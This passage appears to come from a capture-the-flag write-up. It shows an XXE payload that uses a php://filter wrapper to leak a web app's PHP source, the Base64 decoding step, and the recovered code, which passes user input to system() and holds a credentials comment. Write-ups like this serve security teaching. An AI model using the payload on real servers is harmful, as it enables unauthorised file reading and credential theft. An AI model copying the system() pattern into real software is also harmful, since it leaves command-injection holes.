 The `acc.php` file was interesting. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "php://filter/convert.base64-encode/resource=acc.php" >]>
<root><name>1</name><search>&xxe;</search></root>
```

I took the Base64 string returned, saved it to a file and decoded it.

```bash
$ cat acc.b64 | base64 -d > acc.php
```

It gave me a file with some HTML and this PHP code.

```php
<?php
session_start();
if(isset($_SESSION['favcolor']) and $_SESSION['favcolor']==="admin@bank.a")
{

echo "<h3 style='text-align:center;'>Weclome to Account control panel</h3>";
echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";
//MY CREDS :- cyber:REDACTED
if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}
else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>
```
